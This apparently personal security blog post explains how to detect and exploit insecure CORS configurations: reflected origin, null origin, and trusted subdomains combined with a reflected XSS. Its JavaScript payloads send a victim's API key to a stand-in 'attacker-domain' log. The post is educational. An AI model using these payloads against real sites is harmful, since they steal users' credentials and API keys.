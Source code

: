 ```yaml
---
layout: post
title:  "Detecting and Exploiting Insecure CORS Configuration"
date:   2023-09-25 21:29:20 +0700
categories: jekyll update
usemathjax: true
tag:
  - tips
  - web application
  - CORS
image1:
  - /insecure-cors-configuration/img1.PNG
image2:
  - /insecure-cors-configuration/img2.PNG
image3:
  - /insecure-cors-configuration/img3.PNG
image4:
  - /insecure-cors-configuration/img4.PNG
image5:
  - /insecure-cors-configuration/img5.PNG
image6:
  - /insecure-cors-configuration/img6.PNG
image7:
  - /insecure-cors-configuration/img7.PNG
image8:
  - /insecure-cors-configuration/img8.PNG
image9:
  - /insecure-cors-configuration/img9.PNG
---
```


Helloo readers!

Some of you might be wondering what CORS is? 🤔

CORS or Cross-Origin Resource Sharing is a security feature implemented by web browsers that controls how web pages in one domain can request and interact with resources (such as data, images, or APIs) hosted on another domain. This security feature is designed to prevent malicious websites from making unauthorized requests to a different domain on behalf of a user.

An insecure CORS configurations may pose significant security risks, including 

1. Data Theft (such as API keys and user credentials).
2. Cross-Site Scripting (XSS) attacks.
3. Remote Code Execution.

Properly configuring CORS policies and server settings is crucial to mitigate these risks and protect web applications and user data.


In this blog, I will demonstrate on how to detect and exploit insecure CORS configurations.

### Reflected Origin

The application becomes susceptible when:

1. Server reconfigures `Access-Control-Allow-Origin` header to the domain supplied by the attacker.
2. `Access-Control-Allow-Credentials` set as true.

<figure>
<img src="{{ page.image1 }}" alt="Reflected Origin">
<figcaption>Fig 1. Reflected Origin</figcaption>
</figure>

To exploit this vulnerability, the attacker must first place the JS script on an external server, making it accessible to the target user. Afterward, they need to craft an HTML page, incorporate the JS script within it, and then deliver this page to the user.

<figure>
<img src="{{ page.image2 }}" alt="Exploit Server">
<figcaption>Fig 2. Exploit Server</figcaption>
</figure>


```javascript
<script>
  # Initialize req and url variable
  var req = new XMLHttpRequest();
  var url = ('URL');

  # Set an event handler for when the request is completed
  req.onload = reqListener;
  # Configure the request
  req.open('GET', url + '/accountDetails',true);
  # Enable sending credentials with the request
  req.withCredentials = true;
  req.send();
  # Define the reqListener function
  function reqListener() {
    location='attacker-domain/log?key='+this.responseText;
  };
</script>
```

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image3 }}" alt="Result">
<figcaption>Fig 3. Result</figcaption>
</figure>

`alWO6sJJnOlhJYwKVmdMMYhiq6xTLuQ1`

### NULL Origin

The application becomes susceptible when:

1. Server reconfigures `Access-Control-Allow-Origin` header to null.
2. `Access-Control-Allow-Credentials` set as true.

<figure>
<img src="{{ page.image4 }}" alt="NULL">
<figcaption>Fig 4. NULL origin</figcaption>
</figure>

To take advantage of the Null Origin vulnerability, we'll employ an iframe with a sandbox attribute to fetch the API key. 
By utilizing the sandbox property, we establish the frame's origin as null, enabling us to configure the Origin header with a null value.

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    var url = ('URL');

    req.onload = reqListener;
    req.open('GET', url + '/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='attacker-domain/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image5 }}" alt="Result">
<figcaption>Fig 5. Result</figcaption>
</figure>

`noF0gu7NCbYRFg6Cq8lkVbwqLR3574rA`

### Trusted Subdomains

The application becomes susceptible when:

1. Server configures `Access-Control-Allow-Origin` header as trusted subdomains.
2. `Access-Control-Allow-Credentials` set as true.

**This exploitation case is dependent on whether the trusted subdomains have any misconfigurations like Cross-Site Scripting.**

<figure>
<img src="{{ page.image6 }}" alt="NULL">
<figcaption>Fig 6. Trusted Subdomains</figcaption>
</figure>

After finding a CORS misconfiguration, it is time to find for exploitable attack vectors.

In this scenario, we found a reflected XSS vulnerability on the 'Check Stock' feature owned by stock trusted subdomain.

<figure>
<img src="{{ page.image7 }}" alt="NULL">
<figcaption>Fig 7. XSS Payload</figcaption>
</figure>

<figure>
<img src="{{ page.image8 }}" alt="NULL">
<figcaption>Fig 8. XSS</figcaption>
</figure>

Craft a one-liner JavaScript to exfiltrate the apiKey.

```javascript
<script>
    document.location="http://stock.VULN.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULN.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://attacker-domain/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
````

After storing and delivering the exploit to the victim, the victim's API Key will pop up in our exploit server log.

<figure>
<img src="{{ page.image9 }}" alt="NULL">
<figcaption>Fig 9. Result</figcaption>
</figure>

`Ldrh2myx9LailPFS4i2zzkxw6chGED6F`


### Unexploitable Case: Wild Card

The application is NOT vulnerable when the Access-Control-Allow-Origin is set to wildcard * , even if the Access-Control-Allow-Credentials header is set to true.

This is because there is a safety check in place that disables the Allow-Credentials header when the origin is set to a wildcard.

So that’s it guys, hoped that my blog could help you better understand CORS.

See you on my next blog post!

